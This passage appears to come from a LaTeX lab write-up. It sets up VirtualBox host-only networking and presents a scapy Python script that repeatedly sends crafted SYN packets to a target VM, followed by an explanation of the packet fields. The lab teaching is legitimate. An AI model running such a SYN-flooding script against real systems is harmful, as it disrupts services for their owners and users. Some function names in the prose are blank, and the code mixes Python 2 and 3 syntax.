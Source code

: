 \documentclass[11pt]{article}
\begin{document}
The machines will be connected through the VirtualBox “Hostonly” network adapter. By using this method, VirtualBox creates virtual adapters for connections and doesn't try to use a physical network adapter. This setup requires creating a host-only adapter (if none exists).

\subsection{Description of the SYN flooding script}
This script is based on the original created by \href{https://github.com/subodhp}{Subodh Pachghare} in which the VM attacker sends malformed SYN connection packets to the target:\vspace{5mm}

\begin{lstlisting}

#! /usr/bin/env python
import sys
from scapy.all import *
print("Field Values of malformed packet sent")
# Create malformed packet
p = IP(dst = sys.argv[1], id = 1111, ttl = 99)/TCP(sport = RandShort(), dport=80, seq = 12345, ack = 1000, window = 1000, flags = "S")
ls(p)
print("Sending Packets in 0.3 second intervals for timeout of 4 sec")
ans, unans = srloop(p, inter = 0.3, retry = 2, timeout=4)
print("Summary of answered packets")
ans.summary()
print("---------------------------")
print("Summary of unanswered packets")
unans.summary()
print("source port flags in response")
for s,r in ans:
    print r.sprintf("%TCP.sport% \t %TCP.flags%")

\end{lstlisting}

\vspace{5mm}

Let's take a look at some of the details of the malformed packet: the destination address of the packet is passed as a parameter, it will be the address of the victim server (virtual machine). The source port is randomly generated using the \texttt{} function. Lastly, the TCP flags are set to "S", in order to send a SYN packet.\vspace{5mm}

We will also use the method \texttt{} which sends a packet and continues to resend it after each response is received. This method returns a tuple of answered and unanswered packets, we will print a summary of those packets, too, so we can see the response of the target server.\vspace{5mm}
\end{document}
